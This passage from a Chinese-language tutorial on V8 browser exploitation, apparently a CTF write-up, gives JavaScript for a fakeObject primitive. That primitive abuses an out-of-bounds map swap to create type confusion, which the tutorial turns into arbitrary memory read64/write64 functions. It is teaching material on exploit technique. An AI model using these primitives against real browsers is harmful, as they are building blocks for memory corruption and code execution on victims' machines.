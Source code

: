 ```javascript
{
	var obj_addr = i2f(addr + 1n); // +1变成指针
	float_array[0] = obj_addr;     // 将地址存入float_array[0]，并修改float_array类型为obj array
	float_array.oob(obj_array_map);

	var fake_object = float_array[0];//这样就会将传入的地址当成是一个对象的地址
	float_array.oob(float_array_map); // 将数组类型还原
	return fake_object;
}
```

（2）将类型混淆漏洞转化成任意读写漏洞：

通过addressOf 泄漏fake_array 对象的地址，并且通过计算偏移，获取fake_array[0]的地址，之后fake_array[0]地址解析成object指针，这样fake_array[0]...[5]就会被认为是一个object对象。

通过改写fake_array[2]就可以操作伪造对象fake_object的elements内容，进行任意读写。

```javascript
var fake_array = [
	float_array_map,
	i2f(0n),
	i2f(0x41414141n),
	i2f(0x1000000000n),
	1.1,
	2.2
];

%DebugPrint(fake_array); // fake array map address
var fake_array_addr = addressOf(fake_array);
var fake_object_addr = fake_array_addr - 0x40n + 0x10n;
var fake_object = fakeObject(fake_object_addr);


function read64(addr)
{
	fake_array[2] = i2f(addr + 0x1n - 0x10n);// 传入地址+1变成指针，因为elements属性前面还有map和length占0x10个字节，所以要先扣除
	var leak_info = f2i(fake_object[0]);
	//console.log("[*] leak addr: 0x" + hex(addr) + " data: 0x" + hex(leak_info));
	return leak_info;
}

function write64(addr, data)
{
	fake_array[2] = i2f(addr + 0x1n - 0x10n);
	fake_object[0] = i2f(data);
	//console.log("[*] write data to addr: 0x" + hex(addr) + " data: 0x" + hex(data));
}

```

示意图如下：
